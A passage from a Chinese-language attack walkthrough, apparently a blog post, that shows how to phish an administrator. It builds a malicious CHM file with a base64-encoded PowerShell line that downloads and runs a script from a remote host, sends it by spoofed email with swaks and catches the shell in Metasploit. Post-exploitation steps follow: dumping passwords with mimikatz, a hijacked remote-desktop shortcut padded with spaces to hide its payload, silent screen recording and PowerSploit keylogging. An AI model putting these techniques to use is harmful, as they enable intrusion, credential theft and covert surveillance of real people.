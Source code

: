 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h1ma6cmj20nl0iwgp2.jpg)

第二种方法比较简单，用 easy chm 做一个恶意的 chm ：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h270v2nj21hc0sojuk.jpg)

其中我做的 test.html 我放在了 [https://github.com/niexinming/safe_tool/blob/master/test.html](https://github.com/niexinming/safe_tool/blob/master/test.html) Ps: 由于PARAM的value的长度似乎有某种限制，所以我把

```
IEX (New-Object Net.WebClient).DownloadString("
http://10.101.101.16/uacchm.ps1"
;)
```

base64 编码之后放入 PARAM 的 value 中 ：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h381u2eg21gy0pm7wh.gif)

两个恶意的文件都制作好后用 swaks 伪造邮件把这两个文档发送出去：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h3ulnapj21hb0rwkjl.jpg)

现在静静等待管理员点击我们的恶意文件，启动msf的 exploit/multi/handler 模块时候用 exploit -j 就可以让 msf 在后台等待管理员上钩了。

**<br>**

**0x02 后渗透**

当我们发现一个管理员中了我们的木马：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h5prxljj20k109ggtv.jpg)

由于 bypass 了 uac ，所以返回的是管理员的 shell ，我们可以用 mimikatz 来把密码脱出来看看：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws1.sinaimg.cn/large/c334041bgy1fj7h876nmij20k60ajqbk.jpg)

由于管理员的机子不属于任何域，也不是域账号登陆，所以我需要获取他的在远程登陆其他机子的时候的用户名和密码，根据[这篇文件](http://www.freebuf.com/articles/system/132075.html)的介绍，我希望替换远程桌面的快捷方式来监视管理员的行为，思路是：

正常启动c:windowssystem32mstsc.exe，避免管理员怀疑

由于原来的exp一启动就会有个黑框框一闪而过，要用rundll32的方式来消除黑框框，让恶意代码静态启动

参数部分要先加260个空格字符后面接着为payload代码，这样减小管理员查看属性的时候看到payload而产生怀疑

参考http://wooyun.jozxing.cc/static/drops/tips-13125.html这个文章静默启动一个桌面步骤记录程序

利用PowerSploit的Get-Keystrokes.ps1的脚本来记录键盘记录
